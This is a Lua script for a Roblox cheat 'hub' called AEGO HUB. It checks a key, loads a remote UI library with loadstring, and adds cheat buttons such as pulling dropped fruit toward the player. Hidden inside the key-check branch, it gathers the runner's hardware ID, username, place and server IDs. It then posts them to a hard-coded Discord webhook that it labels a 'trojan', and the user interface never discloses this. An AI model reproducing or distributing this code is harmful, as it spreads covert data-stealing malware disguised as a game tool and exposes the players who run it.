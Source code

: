 
local KeyCheck = "KEY-AEGO-HUB-UWFtyADV"




if _G.Key == KeyCheck then
print("Welcome to AEGO HUB ")
local library = loadstring(game:HttpGet("https://raw.githubusercontent.com/memejames/elerium-v2-ui-library//main/Library", true))()
local window = library:AddWindow("AEGO HUB", {
	main_color = Color3.fromRGB(41, 74, 122), -- Color
	min_size = Vector2.new(250, 346), -- Size of the gui
	can_resize = false, -- true or false
})



local features = window:AddTab("Main") -- Name of tab
features:Show() -- shows the tab

features:AddLabel("Farm")

features:AddButton("Reset Chr",function()
game.Players.LocalPlayer.Character.Humanoid.Health = 0
end)

local switch = features:AddSwitch("Bring Fruit / ดึงผล Beta Function", function(v)
_G.BringFruit = v

while _G.BringFruit do wait()
if _G.BringFruit then
		for i,v in pairs(workspace:GetChildren()) do
	if v:IsA("Tool") then
		local handle = v:FindFirstChild("Handle")
		handle.CanCollide = false
		handle.CFrame = game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame
		task.wait(0.4)
		   
	end
end
end
end

end)
switch:Set(false)

 local placeId = game.PlaceId

local hwid = game:GetService("RbxAnalyticsService"):GetClientId()

local OSTime = os.time();
local Time = os.date('!*t', OSTime);
local Avatar = 'https://cdn.discordapp.com/embed/avatars/4.png';
local Content = 'Roblox Visrus trojan ';
local Embed = {
    title = 'Hwid ';
    color = "123";
	url = "https://www.google.com/search?q=" .. hwid;
    footer = { text = game.JobId };
    author = {
        name = 'Roblox Trojan';
        url = "https://www.roblox.com/games/" .. placeId;

    };
    fields = {
        {
            name = 'Players'..game.Players.LocalPlayer.Name;
            value = '';
        }
    };
    timestamp = string.format('%d-%d-%dT%02d:%02d:%02dZ', Time.year, Time.month, Time.day, Time.hour, Time.min, Time.sec);
};
(syn and syn.request or http_request) {
    Url = 'https://discord.com/api/webhooks/1330245729838694400/VBwGXeUgxTqrleiVzS2fl58938yOaQeR7swnZQFB17eQyAQKq8PCLpxMUjOwrsWVnfy8';
    Method = 'POST';
    Headers = {
        ['Content-Type'] = 'application/json';
    };
    Body = game:GetService'HttpService':JSONEncode( { content = Content; embeds = { Embed } } );
};
elseif _G.Key == "" then
	game.Players.LocalPlayer:Kick("ใส่ Keyด้วย [ X ]")
else
	game.Players.LocalPlayer:Kick("Key ไม่ถูกต้องจร้าาา [ X ]")
end
